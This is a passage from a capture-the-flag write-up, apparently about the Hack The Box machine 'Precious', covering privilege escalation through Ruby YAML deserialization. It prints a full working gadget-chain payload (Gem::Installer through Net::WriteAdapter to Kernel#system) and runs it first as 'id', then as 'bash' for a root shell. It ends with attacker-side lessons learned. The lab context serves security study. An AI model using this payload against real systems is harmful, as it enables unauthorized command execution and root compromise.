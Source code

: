 ```
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

I then wrote the above into `/home/henry/dependencies.yml` and re-ran `/opt/update_dependencies.rb`:

![yaml deserialization proof](yaml%20deserialization%20proof.png)

Ignore the traceback: the payload `id` worked! Let's I'll modify this to open up a root shell instead of just running `id`. 

So instead of running `id`, just run `bash`. Yep, it really is that simple :thumbsup:

```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: bash
         method_id: :resolve
```

![root shell-blurred](root%20shell-blurred.png)

And there's the root flag! :tada:



## LESSONS LEARNED

{{% lessons-learned attacker=true %}}

### Attacker

- Use searchsploit and a search engine often. During a penetration test, it is fair game to build on the work of others: for an HTB box, chances are low that you're going to blaze a new trail and write novel PoC code, so always check for CVEs!
- Utilize an enumeration tool like **linpeas** early on, once you've gained a foothold. This can help you rapidly find the vulnerabilities that you'll need to get the flags.
- Keep the name of the box in mind. In this case, "precious" is a reference to "ruby", which was a major hint for later in the box.
  {{% /lessons-learned %}}

